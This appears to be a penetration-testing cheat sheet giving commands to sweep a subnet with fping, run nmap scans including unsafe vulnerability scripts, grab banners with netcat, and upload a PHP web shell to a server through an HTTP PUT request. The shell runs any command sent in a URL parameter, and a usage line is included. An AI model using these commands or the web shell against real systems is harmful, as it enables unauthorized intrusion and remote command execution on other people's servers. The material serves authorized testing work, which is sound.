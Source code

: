 ## Finding hosts on subnet  
### Find alive hosts with fping
`fping -a -g x.x.x.x/24 2>/dev/null > hosts.txt`  
### Remove own IP (should be first line - verify before executing)
`sed -i '1d' hosts.txt`
### Run nmap scan on alive hosts | Top 1k
`nmap -AT4 -iL hosts.txt -oN namp-1k.nmap` 
### Run nmap scan on alive hosts | all ports
`nmap -AT4 -iL hosts.txt -p- -oN namp-all.nmap` 
### nmap vul scan on alive hosts
`nmap --script vuln --script-args=unsafe=1 -iL hosts.txt`

---
---

## Netcat banner grabbing
```
nc {target} 80
HEAD / HTTP/1.0
[enter twice]
```

---
---

## Get available server options
```
nc {target} 80
OPTIONS / HTTP/1.0
[enter twice]
```

---
---

## PUT abuse cmd shell
```
nc {target} 80
PUT /shell.php HTTP/1.0
Content-type: text/html
Content-length: [wc -m shell.php value]

<?php
if (isset($_GET['cmd']))
{
    $cmd = $_GET['cmd'];
    echo '<pre>';
    $result = shell_exec($cmd);
    echo $result;
    echo '</pre>';
}
?>

Usage: url/shell.php?cmd={cmd}
```

---
---